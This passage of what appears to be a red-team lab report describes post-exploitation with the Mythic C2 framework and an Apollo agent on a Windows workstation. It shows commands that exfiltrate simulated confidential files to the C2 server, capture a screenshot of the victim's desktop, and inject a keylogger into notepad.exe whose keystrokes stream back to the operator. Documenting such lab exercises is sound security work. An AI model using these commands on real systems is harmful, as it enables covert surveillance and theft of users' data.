




## 5.8 Continuing the Attack via RDP — Reconnaissance and Data Exfiltration

After successfully executing the **Apollo agent payload** with **administrator privileges**, the **RDP session was closed**.  
The **`adm` user**, physically logged into the workstation, regained control of the desktop.  
In the background, **Apollo remained active (running with elevated privileges)**, invisible to the user.  

From this point, all further actions were performed **remotely via the Mythic C2 console**, without maintaining a graphical session.

---

### Initial Reconnaissance

The first command executed was `whoami` (**Figure 10**).

On the machine’s disk, two text files containing **simulated confidential data** were found in the `Documents` folders of users `adm` and `Damian`.

They were downloaded to the C2 server using the `download` command:

```
download C:\Users\adm\Documents\ConfidentialDataADM.txt
```

```
download C:∖Users\Damian\Documents\ConfidentialDataDAMIAN.txt
```

The files were successfully transferred to the C2 server and stored as **artifacts in the local Mythic file repository** (**Figure 8**).



**Figure 8 — Mythic C2 showing downloaded confidential data files**

---

### Capturing a Screenshot

A screenshot of the active user session was taken to observe current activity (**Figure 10**):

screenshot

This command allows the operator to **remotely view the victim's desktop**, which can be useful in **later observation stages**.

---

### Injecting a Keylogger

As the last test in this user’s context, the ability to **inject a keylogger** into a running process was used.

A text file `DaneDoKeyloggeraADM.txt` was open on the `adm` user's desktop.  
To intercept keystrokes entered into it, the operator first listed running processes to identify the `notepad.exe` PID (**Figure 9**):

```
ps
```



**Figure 9 — Mythic C2 showing Apollo agent sessions and identifying the notepad.exe process**

Next, the keylogger was injected into the identified process (**Figure 10**):

```
keylog_inject -PID 6988
```

After injection, a test message was typed into the open document:

> "Testowy wpis użytkownika na potrzeby przetestowania keyloggera"

The recorded keystrokes were automatically streamed back to the Mythic C2 console (**Figure 11**).



**Figure 10 — Mythic C2 console showing executed commands: whoami, download, screenshot, ps, keylog_inject**



**Figure 11 — Mythic C2 console showing captured keystrokes from the injected keylogger**
